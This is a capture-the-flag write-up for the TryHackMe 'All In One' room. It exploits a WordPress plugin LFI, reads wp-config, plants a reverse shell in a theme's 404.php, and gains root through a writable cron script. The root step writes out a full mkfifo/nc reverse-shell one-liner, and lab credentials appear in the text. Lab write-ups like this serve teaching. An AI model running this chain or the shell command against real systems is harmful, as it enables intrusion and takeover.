

# All In One (THM)

- https://tryhackme.com/room/allinonemj
- March 13, 2023
- easy

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON     VERSION
21/tcp open  ftp     syn-ack    vsftpd 3.0.3
22/tcp open  ssh     syn-ack    OpenSSH 7.6p1 Ubuntu 4ubuntu0.3    
80/tcp open  http    syn-ack    Apache httpd 2.4.29 ((Ubuntu))

```

### FTP

- anonymous login allowed
- but nothing found in FTP

### HTTP

- Apache default page
- directory brute forcing with ffuf

```
wordpress
hackathons
```
#### hackathons
```html
<html>
<body>
<h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
</body>
</html>
```
- Vinegar cipher???


#### wordpress

- CMS -> wordpress
- run nuclei for wordpress

```sh
nuclei -u http://$IP/wordpress -tags wordpress
```
- username -> elyana
- vulnerable to lfi
```
[CVE-2016-10956] [http] [high] http://10.10.179.242/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


- from vinegar decoding, found 1 word which is a potential password
- now know user names from LFI
- there is ssh, ftp ports open and try to enter 
- not successful
- with lfi, try to achieve php files
- check which methods should I use to read php files


- with base64 encode filter , success



- try to get wp-config file
- I guess I need to back directory for 5 places to reach wordpress folder 


- then copy the contents and

```sh
echo 'contents from copy the base64 version' | base64 -d > config.php
```
- check this file
- found credentials 
- it is just credentials found above `elyana:H@ckme@123`
- I forgot to enter wordpress admin panel :D
- try to get admin panel with this credentials and get login.


- add reverse shell to 404.php file

```
http://10.10.179.242/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty
```
- like this


## User Access

- listen with nc in local machine
- then go to the wordpress main site and add arbitary route to trigger the `404.php` file
- get `www-data` shell
- make stable shell with python

```sh
bash-4.4$ cat /etc/crontab
...
*  *    * * *   root    /var/backups/script.sh

bash-4.4$ ls -la /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```
- cron job is running by root user and www-data has also write access to this file

## Root Access

- write in `/var/backups/script.sh` file like this
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f
```
- don't forget `4242` is listening and change other port


```sh
# cat /home/elyana/user.txt
# cat /root/root.txt
```
- flags are base64 string and decode it

---